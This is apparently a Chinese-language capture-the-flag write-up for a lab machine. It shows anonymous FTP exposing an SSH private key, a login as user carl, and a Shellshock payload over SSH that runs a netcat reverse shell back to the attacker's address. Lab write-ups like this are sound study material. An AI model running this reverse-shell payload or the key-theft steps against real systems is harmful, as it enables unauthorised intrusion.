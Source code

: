 ## ftp 匿名登陆

```bash
ftp> ls -lah
drwxr-xr-x    2 0        114          4096 Apr 20  2021 .
drwxr-xr-x    2 0        114          4096 Apr 20  2021 ..
-rwxrwxrwx    1 0        0            1811 Apr 20  2021 id_rsa
```

将 `id_rsa` 这个文件下载到本地，将其中的数据进行 `Base64` 解码，并提取可视字符串，得到

```plaintext
carl@choc
```

## User - carl

```bash
┌─[randark@parrot]─[~]
└──╼ $ ssh carl@192.168.56.122 -i id_rsa


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################






        ███████╗ █████╗ ██╗██╗     ███████╗██████╗     ██╗      ██████╗ ██╗
        ██╔════╝██╔══██╗██║██║     ██╔════╝██╔══██╗    ██║     ██╔═══██╗██║
        █████╗  ███████║██║██║     █████╗  ██║  ██║    ██║     ██║   ██║██║
        ██╔══╝  ██╔══██║██║██║     ██╔══╝  ██║  ██║    ██║     ██║   ██║██║
        ██║     ██║  ██║██║███████╗███████╗██████╔╝    ███████╗╚██████╔╝███████╗
        ╚═╝     ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚═════╝     ╚══════╝ ╚═════╝ ╚══════╝



Connection to 192.168.56.122 closed.
```

看起来是成功登陆了，但是不知道为何直接拦截出去了

尝试借助 Bash shellshock 漏洞，以及 [bash - how can shellshock be exploited over SSH? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh)

参考直接执行反弹 shell

```bash
┌─[randark@parrot]─[~]
└──╼ $ ssh carl@192.168.56.122 -i id_rsa '() { :;}; nc 192.168.56.102 9999 -e /bin/bash'
```
